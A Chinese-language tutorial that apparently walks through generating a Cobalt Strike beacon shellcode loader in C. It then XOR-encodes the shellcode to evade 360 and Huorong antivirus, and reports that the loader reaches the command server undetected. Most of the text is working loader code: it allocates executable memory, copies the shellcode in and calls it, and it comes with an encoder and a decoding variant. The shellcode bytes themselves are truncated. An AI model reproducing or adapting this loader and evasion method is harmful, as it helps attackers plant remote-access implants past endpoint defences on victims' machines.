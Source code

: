#0x01 shellcode测试
Cobalt Strike 4.2  
创建监听器beacon http  
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式，勾选x64）  
生成的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int main() {
    char* old= VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
下载并安装VS2019，安装时选择C++和windows的类别，创建windows控制台项目
直接在VS2019下编译会有类型匹配问题，进行强制类型转换的修改，能成功编译的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// length: 891 bytes
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";
int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线
拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒  
但使用火绒扫描后，却提示病毒，如下图  
![image](./0.png)

0x02 shellcode免杀
使用如下C代码，对shellcode进行简单编码（每个字节和数字1进行异或）
```
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );
    }
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./1.png)  
执行后能成功连接到CS，如下图  
![image](./2.png)
